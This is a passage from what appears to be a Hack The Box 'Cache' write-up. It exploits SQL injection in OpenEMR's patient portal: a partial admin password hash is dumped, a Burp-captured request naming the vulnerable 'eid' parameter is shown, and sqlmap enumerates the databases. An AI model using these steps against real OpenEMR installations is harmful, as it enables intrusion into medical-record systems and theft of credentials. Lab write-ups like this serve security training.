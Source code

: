 Nice, let's take a look:

```
┌──(ryan㉿kali)-[~/HTB/Cache/data]
└─$ cat users_secure.csv 
id,username,password,salt,last_update,password_history1,salt_history1,password_history2,salt_history2
1,openemr_admin,$2a$05$l2sTLIG6GTBeyBf7TAKL6.tt,$2a$05$l2sTLIG6GTBeyBf7TAKL6A$,2019-11-21 06:38:40,,,,
```
Hmm, the exploit appears to have worked, but this doesn't seem to be the entirety of the hash, and therefore isn't crackable.

I'm not sure why that didn't work?

There is also a Metasploit module for this vulnerability `sqli/openemr/openemr_sqli_dump`, however it was unable to dump the `users_secure` table.

Going back and looking for exploits, I find this authenticated RCE, which links to a YouTube video demonstrating the SQL injection at work. https://www.exploit-db.com/exploits/45161

https://www.youtube.com/watch?v=DJSQ8Pk_7hc

Let's capture in burp the following request and save it to a file called burp.txt

```
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=i30cb8nhgajq4anbu0tcfqtjfj; PHPSESSID=7p9vdseojv2mpi26ijdm8vh8k9
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The `eid` parameter is vulnerable here.

Let's feed this into sqlmap:

```
┌──(ryan㉿kali)-[~/HTB/Cache]
└─$ sqlmap -r burp.txt --threads=10 --dbs

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.6.3#dev}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>
[14:50:00] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] openemr
```
